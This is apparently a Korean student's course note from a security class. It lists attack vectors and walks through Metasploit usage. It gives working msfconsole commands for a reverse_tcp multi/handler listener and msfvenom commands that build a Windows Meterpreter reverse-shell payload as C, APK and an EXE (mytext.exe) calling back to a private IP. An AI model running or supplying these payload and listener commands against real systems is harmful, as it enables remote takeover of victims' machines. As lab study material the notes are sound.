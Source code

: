 # DAY 2

## 공격자 공격 방법 종류
  - EXE 파일
    1. 악성코드 생성도구(metasploit): 서버 백신 //서버백식은 악성코드 못잡은 경우 O
    2. DLL Injection
  - URL
  - MACRO
  - 웹 취약점
  - 모바일

## metasploit
### command
```
service postgresql start
service metasploit start
msfconsole
```
실행 안 될 경우
find /usr -name dalvik.rb -print <- 설정 파일 검색
마지막 줄 cert.not_after = cert.not_before + 3600 * 24 * 365 * 20
20 -> 2로 변경 후 저장

### command
```
search (search adobe)
use (exploit/linux/browser/adobe_flashplayer_aslaunch)
use windows/meterpreter/reverse_tcp //특정 공간 선택할 수 있음
back (cancel)
show options
set lhost 10.10.10.10
exploit //공격,      +encoders: 특정 기호로 변경
shellcode
bind (->, inbound)
reverse (<-, outbound)
```

#### senario
```
공격자가 피해자의 연결을 대기한다.
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lport 7070
set lhost 10.0.2.15
exploit
```

#### 악성코드 생성
커널에서
```
msfvenom -l payloads
(msfvenom -p windows/meterpreter/reverse_tcp lhost=10.100.244.20 lport=7070 -f c)
(msfvenom -p windows/meterpreter/reverse_tcp lhost=10.100.244.20 lport=7070 -f apk)
msfvenom -p windows/meterpreter/reverse_tcp lhost=10.100.244.20 lport=7070 -f exe > mytext.exe
```
#### 공유폴더/파일전송
이더넷 인터페이스 통신으로 전송
```
file system/media/sf_폴더명
```
> mytext.exe 옮기니 알약이 감지함